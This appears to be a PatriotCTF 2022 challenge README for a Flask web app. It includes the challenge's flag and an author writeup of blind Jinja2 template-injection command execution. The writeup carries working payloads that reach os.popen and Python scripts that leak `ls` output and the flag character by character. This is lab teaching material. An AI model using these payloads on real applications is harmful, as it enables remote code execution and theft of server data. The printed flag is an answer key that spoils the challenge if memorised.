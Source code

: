 # Mr. O

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/blob/main/Web/Mr%20O/INSTALL.md)

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get view the admin.html page, I will give you a flag. 

Hacked again, so I am now filtering those special words and characters, but I won't tell you what they are so you can't find out how I was hacked. I will give you guys a couple characters back because I got some complaints about going overboard with it, especially about not being able to use a period on a messaging service.

p.s. to save you some time, don't try getting a reverse shell

### Difficulty
7/10?

### Flag
`PCTF{chri5_bumst34d_i5_100king_thicc}`

### Hints
1. template injection
2. command execution
3. blind read w/ comparison to leak output

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This web app is alos vulnerable to template injection, but `{{` and `}}` is filtered, so we can't use the same method. Jinja has support for if statement templates that look like this: `{% if 'test' == 'test' %} render this string if true {% endif %}`. Let's see what happens when we send this message:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/jinja_if.png" width=40%  height=40%></p>

Since Python is an OOP language, we can Method Resolution Order (MRO) to traverse across classes to a method we want, such as `os.popen`. Read more about this here: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/. The following payload makes use of this to run the `ls` command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read() == 'test' %} a {% endif %}`

The problem is that we won't see the output. Instead of `ls`, you could just put a reverse shell and that'd be it, but I removed netcat from the docker and filtered basically any other useful special character so people can't do this.

We can instead do a blind test for the output of the command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}`

If we put any character in `x`, then we can test if the output of the `ls` command starts with that character by checking if we see `found` returned back to us. Let's run this with the letter "D": `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('D') %} found {% endif %}`
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/ssti_found.png" width=40%  height=40%></p>

I chose "D" because `Dockerfile` is the first file in the docker. We just need to script this so we can see the whole output of `ls`. Once we have that, we can try to find the path to the `/admin.html` page so we can read the flag.

Here is the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000" # replace this with the actual IP of the docker

def get_cookie():
    data = {
        "username": "test", # make sure to make a test:test user first
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = ""
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/ssti_ls.png" width=40%  height=40%></p>

We see the directory strucutre. We can keep running this until we find the /admin.html file, but I'll skip that. I use a basic flask directory structure, so it is located in `/app/templates/admin.html`. Now let's read the file. There is a lot of HTML fluff that would make the process take forever, so we can speed it up by grepping for `Flag` first. Here's the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000"

def get_cookie():
    data = {
        "username": "test", 
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = "Flag: PCTF{"
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/underground_flag.png" width=40%  height=40%></p>